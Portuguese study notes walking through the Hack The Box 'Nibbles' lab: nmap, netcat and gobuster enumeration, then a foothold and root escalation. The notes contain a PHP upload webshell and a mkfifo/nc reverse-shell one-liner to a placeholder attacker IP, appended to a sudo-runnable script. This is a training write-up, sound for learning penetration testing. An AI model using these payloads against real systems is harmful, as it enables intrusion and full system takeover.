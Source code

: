 # Attacking Your Fist Box

## Nibbles - Enumeration
https://www.youtube.com/watch?v=s_0GcRGv6Ds - Ippsec Video
https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html - Caminho

Nosso primeiro passo quando estiver com algum alvo é realizar um enumeração
Existe algumas formas de pentesting:
Black-Box -> Quando não tem nenhuma informação dada pelo solicitante
Grey-Box -> Foi dada alguma informação como endereços ip's e tipos de SO
White-Box -> Foi dada muita informação, só para testar e tals.

### Nmap e Netcat (nc)
Sempre tente começar com Nmap scan, ele consegue pegar informações dos serviços
que estão sendo executados nas máquinas, então com os serviços é possível buscar
algum exploit para tentar entrar na máquina e tudo mais.

1. com o seguinte comando podemos escanear as portas essenciais de serviços conhecidos
> nmap -sV --open -oA nibbles_initial_scan <ip address>
  O -oA ele pega o output e coloca dentro de um arquivo XML
2. Podemos ver quais portas um modo de scan analisa.
> nmap -v -oG -
  Ele mostra as portas que serão analisadas
3. Depois de pegar as informações das portas padrões, podemos utilizar um nmap -p- para tentar pegar qualquer serviço que não esteja sendo executado em alguma porta padrão
> nmap -p- --open -oA nibbles_full_tcp_scan <ip address>
  Podemos deixar isso rodando em background e ir para outra coleta de informação.
4. Use o netcat para pegar os grab banner que estão rodando no serviço, para verificar as info vindas do nmap
> nc -nv <ip  address> <port>
5. Depois que a varredura de todas as portas estiver concluida, está na hora de fazer uma varredura de script nmap
Esst tipo de varredura pode ser intrusiva, então saiba exatamente o que está acontecendo.
> nmap -sC -p 22,80 -oA nibbles_script_scan <ip address>
  Como a gente já sabe qual porta está aberta, podemos escolher para economizar tempo.
6. É possível utilizar tbm de script dentro do nmap
> nmap -sV --script=http-enum -oA nibbles_nmap_http_enum <ip address>

## Nibbles - Web Footprinting
1. Nós podemos utilizar o whatweb, para poder identificar o que tá rodando no ip
> whatweb <ip address>
2. Podemos acessar o site pela web ou então pelo curl, na web podemos ter referência visual e pelo curl podemos ter acesso ao html diretamente.
> curl http://<ip address>
3. No html é informado algo como nibbledblog, podemos utilizar o curl para pegar essa info
> curl http://<ip address>/nibbleblog
> whatweb http://<ip address>/nibbledog
  Isso pega info's sobre o que está sendo utilizado nesse site (Tudo que está sendo utilizado)
4. Directory Enumeration
  1. Para utilizar a enumeração de diretórios, podemos utilizar o gobuster.
  > gobuster dir -u http://<ip address>/nibbleblog --wordlist /usr/share/dirb/wordlists/common.txt
  2. Encontrou um XML? Então curl nele juntamente com | xmllint --format - para formata-lo
  > curl -s http://<ip address>/nibbleblog/content/private/users.xml | xmllint --format -
Sempre que estiver enumerando algo, busque guardar essas informações e o passo a passo que
levou você até aquela informação, pois muitas vezes você estará perdido, então é muito
útil ter essas infos por perto para se localizar,

## Nibles - Initial Foothold
1. Interessante como o upload de um script é uma vulnerabilidade alta para esses casos
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f") ?>
```
Adicione o ip do vpn - interface tun0 e a porta que você quiser
2. chame a imagem novamente pelo curl, ai ele retorna um shell para o seu nc que estiver
escutando na sua porta :3 
3. Conquiste um shell mais bonito TTY, utilizando o python
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Nibbles - Privilege Escalation
1. Podemos utilizar unzip para verificar o que tem em arquivos zip
> unzip personal.zip
2. Podemos abrir um servidor em python para disponibilizar arquivos
> sudo python3 -m http.server 8080
3. No alvo, podemos fazer um wget ou curl para pegar o arquivo
> wget http://<your ip>:8080/LinEnum.sh
4. Seria uma boa verificar quais comandos é possível executar utilizando sudo
> sudo -l
5. Quando é possível executar alguns .sh como root, então vale a pena adicionar um 
shell reverso no final do arquivo .sh para que possamos ter acesso como root
> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <port> >/tmp/f' | tee -a monitor.sh
  É crucial que você adicione o comando no final do arquivo, evitando sobreescreve-lo, pois pode causar um efeito inesperado, e sempre tente fazer um backup do arquivo, para evitar complicações.
6. Execute o shell como sudo
> sudo /home/nibbler/personal/sutff/monitor.sh
7. lembre-se de ficar escutando utilizar o netcat na porta determinada do script
> nc -lvnp <port>
